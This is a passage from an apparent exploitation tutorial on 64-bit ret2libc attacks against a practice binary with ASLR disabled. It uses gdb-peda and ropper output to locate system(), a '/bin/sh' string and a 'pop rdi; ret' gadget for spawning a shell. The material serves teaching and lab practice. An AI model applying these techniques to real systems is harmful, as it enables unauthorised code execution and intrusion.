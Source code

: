 You can also grab the precompiled binary [here](https://gist.github.com/superkojiman/595524f6b96c79380568). 

In 32-bit binaries, a ret2libc attack involves setting up a fake stack frame so that the function calls a function in libc and passes it any parameters it needs. Typically this would be returning to system() and having it execute "/bin/sh". 

In 64-bit binaries, function parameters are passed in registers, therefore there's no need to fake a stack frame. The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9. Anything beyond that is passed in the stack. This means that before returning to our function of choice in libc, we need to make sure the registers are setup correctly with the parameters the function is expecting. This in turn leads us to having to use a bit of ROP. If you're not familiar with ROP, don't worry, we won't be going into the crazy stuff. 

We'll start with a simple exploit that returns to system() and executes "/bin/sh". We need a few things:

- The address of system(). ASLR is disabled so we don't have to worry about this address changing. 
- A pointer to "/bin/sh".
- Since the first function parameter needs to be in RDI, we need a ROP gadget that will copy the pointer to "/bin/sh" into RDI. 

Let's start with finding the address of system(). This is easily done within gdb: 

```text
gdb-peda$ start
.
.
.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a5ac40 <system>
```

We can just as easily search for a pointer to "/bin/sh":

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x4006ff --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x6006ff --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7b9209b --> 0x68732f6e69622f ('/bin/sh')
```

The first two pointers are from the string in the binary that prints out "Try to exec /bin/sh". The third is from libc itself, and in fact if you do have access to libc, then feel free to use it. In this case, we'll go with the first one at 0x4006ff. 

Now we need a gadget that copies 0x4006ff to RDI. We can search for one using ropper. Let's see if we can find any instructions that use EDI or RDI: 

```
koji@pwnbox:~/ret2libc$ ropper --file ret2libc --search "% ?di"
Gadgets
=======


0x0000000000400520: mov edi, 0x601050; jmp rax;
0x000000000040051f: pop rbp; mov edi, 0x601050; jmp rax;
0x00000000004006a3: pop rdi; ret ;

3 gadgets found
```
